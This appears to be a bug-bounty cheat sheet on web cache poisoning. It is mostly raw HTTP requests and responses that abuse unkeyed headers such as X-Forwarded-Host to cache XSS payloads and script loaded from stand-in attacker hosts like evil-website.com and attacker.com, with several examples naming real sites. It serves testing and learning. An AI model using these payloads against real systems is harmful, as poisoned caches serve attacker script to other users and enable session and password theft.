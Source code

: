 # Web Cache Poisoning

## Introduction
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find
* Parameter with Cache (unkeyed)
* Header with Cache (unkeyed)
* Cookie with Cache (unkeyed)

## Impact
* Session Hijacking (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md) + XSS)
* Password Steal (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md))

## How to exploit
1. Basic poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil-website.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Seizing the Cache
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil-website.com

### Response:
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil-website.com/x.js">
</script>
```

3. Selective poisoning
```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>

### Response:
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

4. Chaining Unkeyed Inputs 
- First step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz

### Response:
HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```
- Second step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps

### Response:
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net
```
- Third step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps

### Response:
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en
```

5. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil

### Response:
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com

### Response:
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

6. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil

### Response:
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io

### Response:
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

## References
* [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)
